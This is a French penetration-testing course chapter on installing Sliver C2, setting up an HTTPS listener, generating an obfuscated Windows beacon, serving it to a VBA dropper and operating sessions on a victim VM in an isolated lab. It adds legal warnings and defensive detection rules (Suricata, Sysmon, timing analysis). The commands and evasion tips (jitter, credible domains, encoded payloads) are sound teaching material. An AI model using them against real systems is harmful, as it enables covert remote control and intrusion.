

# 6.5 Sliver C2 - Installation et configuration

!!! quote "L'analogie de la centrale téléphonique clandestine"

    Pendant la Seconde Guerre mondiale, les réseaux de résistance utilisaient des postes de radio clandestins. L'agent sur le terrain émettait des signaux chiffrés vers une centrale distante. La centrale recevait, décodait, ordonnait la prochaine action, et l'agent exécutait. Si le poste radio de terrain était détruit, la centrale restait opérationnelle pour d'autres agents. Le C2 (Command and Control) est cette centrale. Le beacon dans le poste cible est l'agent avec son poste radio. Sliver est la centrale. Sans C2, le payload du 6.3 exécute son code mais n'a personne à appeler. Avec Sliver actif, chaque beacon qui s'exécute dans le lab ARTECH ouvre une ligne directe vers vous. Vous ordonnez, le beacon exécute.

## Métadonnées du chapitre

Ce chapitre installe et configure le C2 qui recevra les beacons des chapitres suivants.

| Champ | Valeur |
|---|---|
| Durée estimée | 3 heures |
| Niveau | Pratique offensive - Lab isolé |
| Prérequis | 6.3 et 6.4 validés, Kali Linux, accès root |
| Livrables | Sliver C2 actif avec listener HTTPS sur 192.168.50.20 |
| Auto-explication | 12 minutes |

!!! danger "Cadre légal strict"

    Sliver est un framework C2 open source développé par Bishop Fox. Son installation est légale. Son utilisation pour prendre le contrôle de systèmes sans autorisation écrite préalable constitue une infraction aux articles **323-1** et **323-3** du Code pénal français (Loi Godfrain). Dans ce lab, vous êtes à la fois l'attaquant et le propriétaire des systèmes cibles. Ce cadre est la seule légitimité de cet exercice.

## Objectifs pédagogiques

À l'issue de ce chapitre, vous serez capable de :

- Comprendre l'architecture d'un framework C2 moderne
- Installer Sliver sur Kali Linux
- Configurer un listener HTTPS dans Sliver
- Générer un beacon adapté à votre lab
- Interagir avec une session active depuis la console Sliver
- Identifier les signatures réseau de Sliver côté défense

<br>

---

## 1. Cadre juridique

### 1.1 Articles applicables

| Article | Infraction | Peine |
|---|---|---|
| CP 323-1 | Accès frauduleux à un STAD | 3 ans / 100 000 € |
| CP 323-3 | Maintien frauduleux dans un STAD | 5 ans / 150 000 € |
| CP 323-7 | Tentative et complicité | Mêmes peines |

La simple détention de Sliver est légale (outil open source). Son activation contre des systèmes tiers non autorisés constitue immédiatement une infraction à l'article 323-1.

<br>

---

## 2. Architecture C2 moderne

### 2.1 Composantes d'un framework C2

Un framework C2 se compose de plusieurs éléments.



| Composante | Rôle | Dans notre lab |
|---|---|---|
| Teamserver | Serveur central C2, stocke sessions | Sliver sur Kali |
| Listener | Attend les connexions beacon entrantes | HTTPS sur :443 |
| Beacon | Agent sur la cible, callback périodique | beacon.exe dans VM Windows |
| Implant interactif | Session temps réel (≠ beacon asynchrone) | Session Sliver |
| Console opérateur | Interface de commande | `sliver` CLI |

### 2.2 Différence beacon vs session interactive

Sliver distingue deux modes d'opération.

| Mode | Fonctionnement | Usage |
|---|---|---|
| Beacon | Callback périodique (ex: toutes les 60s) | Furtif, moins de trafic |
| Session interactive | Connexion persistante en temps réel | Opérations immédiates |

_Dans ce module, on utilise les **beacons**. Plus réalistes car les attaquants évitent les connexions permanentes qui sont plus facilement détectées par les outils réseau._

<br>

---

## 3. Installation de Sliver

### 3.1 Installation via script officiel

```bash
# Sur Kali Linux (192.168.50.20)
# Installation Sliver via script officiel Bishop Fox

curl https://sliver.sh/install | sudo bash

# Alternative : téléchargement manuel depuis GitHub
# https://github.com/BishopFox/sliver/releases

# Vérification de l'installation
sliver-server --version
# → Sliver C2 Framework v1.5.x

# Le serveur Sliver s'installe dans :
#   /usr/local/bin/sliver-server
#   /usr/local/bin/sliver (client console)
# Configuration : ~/.sliver/
```

_Le script installe le serveur et le client. En production, le serveur serait sur une machine distante. En lab, on les utilise sur la même Kali pour simplifier._

### 3.2 Démarrage du serveur Sliver

```bash
# Démarrer le serveur Sliver (en arrière-plan en lab)
sudo sliver-server &

# Logs serveur
sudo tail -f /var/log/sliver/server.log

# Vérification que le serveur écoute
sudo ss -tlnp | grep sliver
# → Doit écouter sur le port de management (43024 par défaut)
```

### 3.3 Connexion à la console

```bash
# Lancer la console opérateur
sliver

# Vous devez voir :
#     _______ __ _
#    / ___/ /(_) /_  ___ ____
#    \__ \/ / / / / / -_) __/
#   /___/_/_/_/_/  \__/_/
#
#   All hackers gain fear
#   [*] Server v1.5.x - ...
#   [*] Welcome to the sliver shell, type 'help' for help
#
# sliver >
```

<br>

---

## 4. Configuration du listener HTTPS

### 4.1 Pourquoi HTTPS pour le C2

HTTPS est le protocole privilégié pour les C2 modernes.

| Raison | Explication |
|---|---|
| Chiffrement natif | Le trafic C2 ne peut pas être lu par DPI naïf |
| Passe les proxies | Port 443 rarement bloqué en entreprise |
| Légitime visuellement | Trafic HTTPS mixé avec trafic web normal |
| Certificat contrôlable | Permet de contrôler les empreintes TLS (JA3) |

### 4.2 Génération du certificat TLS pour le lab

```bash
# Dans la console Sliver
# Générer un certificat auto-signé pour le lab

sliver > https

# Sliver génère automatiquement un certificat auto-signé
# pour les listeners HTTPS en lab

# Vérification
sliver > jobs
# → Doit afficher le listener HTTPS actif
# → [1] https/443 (en écoute)
```

_En engagement réel, un certificat Let's Encrypt sur un domaine crédible serait utilisé pour ressembler à du trafic légitime. En lab, l'auto-signé suffit car la VM cible ne vérifie pas la chaîne de confiance._

### 4.3 Listener HTTPS détaillé

```bash
# Console Sliver - Options du listener

# Listener HTTPS sur port 443
sliver > https --lhost 192.168.50.20 --lport 443

# Listener HTTPS avec domaine personnalisé (lab)
sliver > https --lhost 192.168.50.20 --lport 443 --domain artech-updates.lab.local

# Listener HTTP (sans TLS, pour debug uniquement)
sliver > http --lhost 192.168.50.20 --lport 80

# Liste des listeners actifs
sliver > jobs
# ID  Name  Protocol  Port
#  1  https https     443

# Arrêter un listener
sliver > jobs kill 1
```

_Utiliser un domaine crédible (`artech-updates.lab.local`) dans le listener rend le trafic beacon moins facilement identifiable par des outils de monitoring réseau simples._

<br>

---

## 5. Génération du beacon

### 5.1 Commande de génération

```bash
# Dans la console Sliver - Génération du beacon pour Windows x64

sliver > generate beacon \
    --os windows \
    --arch amd64 \
    --http 192.168.50.20:443 \
    --seconds 60 \
    --jitter 15 \
    --name artech-beacon \
    --save /root/lab/beacon.exe

# Paramètres expliqués :
#   --os windows      : cible Windows
#   --arch amd64      : architecture 64 bits
#   --http 192.168...  : C2 via HTTPS (https:// est le défaut)
#   --seconds 60      : callback toutes les 60 secondes
#   --jitter 15       : ± 15 secondes de variation (anti-détection timing)
#   --name            : nom interne de l'implant
#   --save            : chemin de sauvegarde du binaire

# Sliver génère le binaire
# [*] Generating new windows/amd64 beacon implant binary
# [*] Symbol obfuscation is enabled
# [*] Build completed in 45s
# [+] Saved to /root/lab/beacon.exe
```

_Le `--jitter` est un paramètre clé : un beacon qui contacte le C2 exactement toutes les 60 secondes est facilement détecté par analyse de flux réseau. Le jitter introduit de la variation pour imiter un trafic humain._

### 5.2 Options de compilation Sliver

Voici les options utiles pour la génération.

| Option | Effet |
|---|---|
| `--skip-symbols` | Désactive l'obfuscation des symboles (plus rapide, moins furtif) |
| `--evasion` | Active des techniques d'évasion supplémentaires |
| `--os linux` | Génère un implant Linux |
| `--format shellcode` | Génère du shellcode brut (pas un PE complet) |
| `--format service` | Génère un service Windows |
| `--days` | Durée de vie du beacon (auto-destruction) |

### 5.3 Vérification du binaire généré

```bash
# Hash du beacon généré
sha256sum /root/lab/beacon.exe
# Notez ce hash dans votre journal de test

# Type de fichier
file /root/lab/beacon.exe
# → PE32+ executable (console) x86-64, for MS Windows

# Vérification strings (indicateurs statiques)
strings /root/lab/beacon.exe | grep -E "sliver|bishop|C2_IP"
# Doit retourner peu ou rien (obfuscation activée)

# Taille typique
ls -lh /root/lab/beacon.exe
# → Entre 3 et 12 Mo selon les options
```

<br>

---

## 6. Servir le beacon via HTTP pour le dropper

Le dropper VBA du chapitre 6.3 télécharge le beacon depuis le C2 via HTTP.

### 6.1 Serveur HTTP Python simple

```bash
# Placer le beacon dans le répertoire servi
cp /root/lab/beacon.exe /root/lab/serve/

# Démarrer le serveur HTTP
cd /root/lab/serve/
python3 -m http.server 80

# Logs de téléchargement visibles en temps réel
# Serving HTTP on 0.0.0.0 port 80 ...
# 192.168.50.100 - - [date] "GET /beacon.exe HTTP/1.1" 200 -
```

_En engagement réel, le beacon serait hébergé sur une infrastructure dédiée, pas directement sur le C2. En lab, simplifier en hébergeant sur la même machine est acceptable._

### 6.2 Si le beacon est encodé XOR (depuis 6.4)

```bash
# Si vous avez encodé le beacon au chapitre 6.4
# Le fichier servi est le beacon encodé
cp /root/lab/beacon_xor.bin /root/lab/serve/beacon.exe

# Note : le nom de fichier reste "beacon.exe" mais le contenu est encodé
# Le loader (VBA ou Go) décodera avant l'exécution
```

<br>

---

## 7. Réception d'une session beacon

### 7.1 Attente de connexion

Avec Sliver en écoute et le listener HTTPS actif, dès que le beacon s'exécute sur la VM cible :

```bash
# Dans la console Sliver - Observation temps réel

sliver > beacons
# (vide au départ)

# Après exécution sur la VM cible, dans les 60-75 secondes
# (temps beacon + jitter) :

sliver > beacons
# ID          Name           Transport  OS/Arch        Last Check-In
# a1b2c3d4    artech-beacon  https      windows/amd64  il y a 15s
```

### 7.2 Interaction avec le beacon

```bash
# Ouvrir une session interactive depuis le beacon
sliver > use a1b2c3d4
# [*] Active beacon artech-beacon (a1b2c3d4)

# Commandes de base
sliver (artech-beacon) > whoami
# ARTECH\paul.dubois

sliver (artech-beacon) > pwd
# C:\Users\paul.dubois\AppData\Local\Temp

sliver (artech-beacon) > ps
# Affiche la liste des processus Windows

sliver (artech-beacon) > ls
# Liste le répertoire courant

sliver (artech-beacon) > info
# Affiche les infos système détaillées
# (OS, hostname, user, PID, architecture...)
```

_Chaque commande dans un beacon est asynchrone : elle est envoyée au prochain callback (dans ~60s). Pour des opérations immédiates, basculer en session interactive._

### 7.3 Passer en session interactive

```bash
# Depuis le beacon, ouvrir une session interactive
# (connexion TCP persistante, moins furtive mais plus réactive)

sliver (artech-beacon) > interactive
# [*] Tasked beacon artech-beacon (a1b2c3d4): open interactive session
# [*] Session 7a8b9c10 artech-beacon - 192.168.50.100:50234 opened

# Basculer sur la session
sliver > sessions
# ID          Name           Transport  OS/Arch        Remote Address
# 7a8b9c10    artech-beacon  https      windows/amd64  192.168.50.100:50234

sliver > use 7a8b9c10
sliver (artech-beacon) > whoami
# Réponse immédiate (session interactive)
```

<br>

---

## 8. Contre-mesures défensives - Détection de Sliver

### 8.1 Signatures réseau connues de Sliver

Sliver a des signatures réseau documentées. Les défenseurs les connaissent.

| Indicateur | Valeur | Source |
|---|---|---|
| JA3 TLS fingerprint | Plusieurs valeurs connues publiées | GitHub - salesforce/ja3 |
| JA3S (serveur) | Fingerprint serveur Sliver documenté | Hunting Sliver - SentinelOne |
| Certificat TLS | CN par défaut observable | OUI si auto-signé |
| User-Agent beacon | Modifiable mais souvent `go-http-client/2.0` | Wireshark/Suricata |
| Timing callback | Régulier même avec jitter (analyse longue durée) | SIEM |

### 8.2 Règle Suricata de détection Sliver

```text
RÈGLE SURICATA - DÉTECTION SLIVER HTTPS BEACON
==================================================

alert tls $HOME_NET any -> $EXTERNAL_NET 443 (
    msg:"Sliver C2 JA3 Fingerprint Detected";
    flow:established,to_server;
    ja3.hash; content:"473cd7cb9faa642487833865d516e578";
    classtype:trojan-activity;
    sid:9000001;
    rev:1;
)

# Plusieurs JA3 hashes associés à Sliver sont publiés :
# https://github.com/salesforce/ja3/tree/master/lists
```

### 8.3 Détection par timing analysis

```text
ANALYSE TIMING BEACON
=======================

Principe :
  Un beacon qui se connecte toutes les 60s ± 15s
  produit un pattern statistique détectable.

Méthode de détection :
  1. Capturer les connexions HTTPS vers IP externe
  2. Calculer les intervalles entre connexions
  3. Si écart-type < 20% de la période moyenne
     et période entre 30-300s → suspect beacon

Outils :
  - Zeek (analyse flux réseau)
  - Elasticsearch + Kibana (visualisation périodicité)
  - Rita (Real Intelligence Threat Analytics) - outil dédié
```

### 8.4 Règle Sysmon pour détection C2

```text
CONFIGURATION SYSMON - RÉSEAU SUSPECT
========================================

<EventFiltering>
  <!-- Connexions réseau depuis processus suspects -->
  <RuleGroup name="C2 Detection" groupRelation="or">
    <NetworkConnect onmatch="include">
      <!-- Processus Office faisant des connexions réseau inhabituelles -->
      <Image condition="end with">WINWORD.EXE</Image>
      <Image condition="end with">EXCEL.EXE</Image>
      <!-- Processus dans %TEMP% -->
      <Image condition="contains">\AppData\Local\Temp\</Image>
    </NetworkConnect>
  </RuleGroup>
</EventFiltering>
```

<br>

---

## 9. Documentation forensique du test C2

Voici le journal de test à compléter.

```markdown
# Journal C2 - Sliver Lab ARTECH
# Date : YYYY-MM-DD

## Environnement
- Sliver Server : Kali 192.168.50.20, v1.5.x
- Listener : HTTPS :443
- VM Cible : Windows 10, 192.168.50.100 (snapshot avant test)

## Génération beacon
- Commande : generate beacon --os windows --arch amd64 ...
- SHA-256 beacon.exe : aabbcc...
- Options : seconds=60, jitter=15

## Test de réception
- Heure activation beacon sur cible : HH:MM:SS
- Premier callback reçu : HH:MM:SS (+62s)
- Beacon ID : a1b2c3d4
- Session interactive ouverte : Oui/Non

## Commandes exécutées
- whoami → ARTECH\paul.dubois
- hostname → ARTECH-POSTE01
- ps → [liste des processus]

## Artefacts
- Capture réseau : sliver-test-YYYY-MM-DD.pcap
- Screenshot session Sliver active
- Log Sysmon : Event 3 (connexion réseau depuis beacon)
```

<br>

---

## 10. Auto-évaluation

Vérifiez votre maîtrise par les questions suivantes.

| # | Question | Réponse |
|---|---|---|
| 1 | Différence beacon vs session interactive ? | Beacon = asynchrone, session = temps réel |
| 2 | Pourquoi utiliser HTTPS pour le C2 ? | Chiffrement + port 443 rarement bloqué |
| 3 | Rôle du jitter dans le beacon ? | Varier les intervalles pour éviter détection timing |
| 4 | Outil de détection réseau par timing ? | RITA (Real Intelligence Threat Analytics) |
| 5 | Empreinte réseau Sliver détectable ? | JA3/JA3S fingerprint TLS |
| 6 | Commande Sliver pour voir les beacons actifs ? | `beacons` |
| 7 | Event Sysmon pour connexion réseau ? | Event ID 3 |
| 8 | Où Sliver stocke sa configuration ? | `~/.sliver/` |

<br>

---

## 11. Synthèse

```text
SLIVER C2 - RÉCAPITULATIF
============================

ARCHITECTURE
  Sliver Server (Kali)
  → Listener HTTPS :443
  → Beacon callback depuis VM cible
  → Console opérateur

LISTENER
  sliver > https --lhost 192.168.50.20 --lport 443

BEACON
  generate beacon --os windows --arch amd64
  --http 192.168.50.20:443
  --seconds 60 --jitter 15

GESTION SESSIONS
  beacons          → voir les beacons actifs
  use <ID>         → basculer sur un beacon
  interactive      → ouvrir session temps réel
  sessions         → voir sessions interactives

DÉTECTION DÉFENSIVE
  JA3/JA4 TLS fingerprint (Suricata)
  RITA timing analysis
  Sysmon Event 3 (connexions réseau)
  EDR : processus dans %TEMP% → réseau externe

ARTICLES JURIDIQUES
  CP 323-1 : accès STAD
  CP 323-3 : maintien STAD
  Lab uniquement = légal
```

## Conclusion

!!! quote "Le C2 est la ligne de commandement - sans lui, le beacon n'est qu'un muet"

> Le chapitre 6.6 génère le beacon final, l'intègre au dropper VBA du 6.3, et valide la chaîne complète en lab. Vous aurez alors toutes les pièces du puzzle avant l'opération réelle du 6.7.

---

**Chapitre précédent** : [6.4 Encodage du payload pour échapper aux scanners](04-encodage-payload-evasion.md)

**Chapitre suivant** : [6.6 Génération du beacon et test local](06-generation-beacon-test.md)
